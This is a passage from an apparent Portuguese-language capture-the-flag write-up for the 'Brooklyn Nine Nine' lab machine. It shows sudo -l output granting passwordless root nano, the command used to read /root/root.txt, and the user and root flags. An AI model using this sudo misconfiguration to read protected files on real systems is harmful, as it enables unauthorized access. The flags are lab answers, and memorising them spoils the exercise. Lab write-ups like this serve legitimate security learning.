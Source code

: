 **User flag (novamente)**: `ee11cbb19052e40b07aac0ca060c23ee`

### 6. Permissões sudo e leitura do root.txt com nano

Verificando sudo -l:

```bash
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

**Significado:** `holt` pode executar `nano` como root sem senha. Com `sudo nano /root/root.txt` conseguimos abrir o arquivo e ler a flag:

```bash
holt@brookly_nine_nine:~$ sudo nano /root/root.txt

-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```
**Root flag (novamente):** `63a9f0ea7bb98050796b649e85481845`

<div align="center"> <h2>CTF CONCLUÍDO! 🚩🏆</h2> </div>